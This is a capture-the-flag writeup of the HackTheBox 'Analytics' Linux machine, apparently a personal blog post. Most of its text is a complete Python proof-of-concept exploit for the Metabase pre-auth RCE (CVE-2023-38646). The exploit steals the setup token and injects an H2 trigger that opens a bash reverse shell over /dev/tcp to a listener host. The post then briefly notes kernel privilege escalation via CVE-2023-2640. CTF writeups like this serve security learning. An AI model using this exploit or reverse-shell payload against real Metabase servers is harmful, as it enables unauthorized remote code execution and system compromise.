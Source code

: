 ```yaml
---
layout: post
title: "Analytics-Linux-Easy"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/f86fcf4c1cfcc690b43f43e100f89718.webp
---
```


# Analytics

HackTheBox: Medium

<aside>
💡 Analytics is a linux machine where we can exploit some vulnerabilities(**RCE vulnerability**), and learn the importance of save sensitive information.

</aside>

## 1: Enumeration

- nmap scanning

 

![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled.png' | relative_url }})

Let’s look around http service

![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_1.png' | relative_url }})

A login interface change to this subdomain

Metabase has a vulnerability (CVE-2023-38646)

![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_2.png' | relative_url }})

## 2: User flag

Use this POC

```bash
import requests
import argparse
import base64
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning
from urllib.parse import urlparse

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_setup_token_and_version(ip_address):
    endpoint = "/api/session/properties"
    url = f"{ip_address}{endpoint}"
    try:
        print(f"[DEBUG] Fetching setup token from {url}...")
        response = requests.get(url, verify=False)
        if response.status_code == 200:
            data = response.json()
            setup_token = data.get("setup-token")
            metabase_version = data.get("version", {}).get("tag")

            if setup_token is None:
                print(f"[DEBUG] Setup token not found or is null for IP: {ip_address}\n")
            else:
                print(f"[DEBUG] Setup Token: {setup_token}")
                print(f"[DEBUG] Version: {metabase_version}")

            return setup_token
    except requests.exceptions.RequestException as e:
        print(f"[DEBUG] Exception occurred: {e}")
        print(f"[DEBUG] Failed to connect to {ip_address}.\n")

def post_setup_validate(ip_address, setup_token, listener_ip, listener_port):
    payload = base64.b64encode(f"bash -c 'bash -i >&/dev/tcp/{listener_ip}/{listener_port} 0>&1'".encode()).decode()

    print(f"[DEBUG] Payload = {payload}")

    endpoint = "/api/setup/validate"
    url = f"{ip_address}{endpoint}"
    headers = {'Content-Type': 'application/json'}
    data = {
        "token": setup_token,
        "details": {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules": {},
            "details": {
                "db": f"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{payload}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x",
                "advanced-options": False,
                "ssl": True
            },
            "name": "test",
            "engine": "h2"
        }
    }

    print(f"[DEBUG] Sending request to {url} with headers {headers} and data {json.dumps(data, indent=4)}")

    try:
        response = requests.post(url, headers=headers, json=data, verify=False)
        print(f"[DEBUG] Response received: {response.text}")
        if response.status_code == 200:
            print(f"[DEBUG] POST to {url} successful.\n")
        else:
            print(f"[DEBUG] POST to {url} failed with status code: {response.status_code}\n")
    except requests.exceptions.RequestException as e:
        print(f"[DEBUG] Exception occurred: {e}")
        print(f"[DEBUG] Failed to connect to {url}\n")

def preprocess_url(user_input):
    parsed_url = urlparse(user_input)
    protocol = f"{parsed_url.scheme}://" if parsed_url.scheme else "http://"
    netloc = parsed_url.netloc or parsed_url.path
    return protocol + netloc.rstrip('/')

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Check setup token')
    parser.add_argument('--rhost', type=str, help='Metabase server IP address (including http:// or https:// and port number if needed)')
    parser.add_argument('--lhost', type=str, help='Listener IP address')
    parser.add_argument('--lport', type=int, default=4444, help='Listener port (default is 4444)')
    args = parser.parse_args()

    print(f"[DEBUG] Original rhost: {args.rhost}")
    args.rhost = preprocess_url(args.rhost)
    print(f"[DEBUG] Preprocessed rhost: {args.rhost}")

    print(f"[DEBUG] Input Arguments - rhost: {args.rhost}, lhost: {args.lhost}, lport: {args.lport}")

    setup_token = get_setup_token_and_version(args.rhost)
    print(f"[DEBUG] Setup token: {setup_token}")
    if setup_token:
        post_setup_validate(args.rhost, setup_token, args.lhost, args.lport)
```

![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_3.png' | relative_url }})

![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_4.png' | relative_url }})

![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_5.png' | relative_url }})

## 3: Priv esc

![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_6.png' | relative_url }})

We see a kernel with an outdated version (CVE-2023-2640)

Just give it executable premises after downloaded it on tmp

We’ve got root flag
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
